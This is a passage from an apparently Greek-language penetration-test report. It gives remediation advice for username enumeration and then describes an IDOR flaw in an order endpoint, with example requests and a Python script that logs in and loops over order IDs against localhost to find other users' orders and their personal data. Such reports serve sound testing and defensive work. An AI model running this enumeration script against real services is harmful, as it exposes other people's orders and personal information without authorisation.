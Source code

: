#### 4.4.5 Προτάσεις Αντιμετώπισης
1. **Generic Error Messages**
```python
# Bad
if not user_exists(username):
    return "User not found"
elif not password_correct(username, password):
    return "Invalid password"

# Good
if not authenticate(username, password):
    return "Invalid username or password"
```

2. **Rate Limiting**
3. **Account Lockout Policy**
4. **CAPTCHA after failed attempts**

---

### 4.5 ΕΥΠΑΘΕΙΑ #5: Insecure Direct Object Reference (IDOR)

#### 4.5.1 Περιγραφή της Ευπάθειας
**Severity:** HIGH (CVSS 3.1: 7.1)  
**CWE ID:** CWE-639  
**OWASP Category:** A01:2021 – Broken Access Control

Users μπορούν να δουν orders άλλων χρηστών αλλάζοντας το order ID στο URL.

#### 4.5.2 Τεχνικά Βήματα Εντοπισμού & Εκμετάλλευσης

**Βήμα 1: Identify Pattern**
```http
# Logged in as user1
GET /order/12345 HTTP/1.1
# Shows order details

# Try incrementing
GET /order/12346 HTTP/1.1
# Shows another user's order!
```

**Βήμα 2: Automated Scanning**
```python
import requests

session = requests.Session()
# Login first
session.post("http://localhost/login", data={"username": "test", "password": "test"})

# Scan order IDs
for order_id in range(10000, 20000):
    r = session.get(f"http://localhost/order/{order_id}")
    if r.status_code == 200:
        print(f"Found accessible order: {order_id}")
        # Extract sensitive data
        # Parse response for PII
```
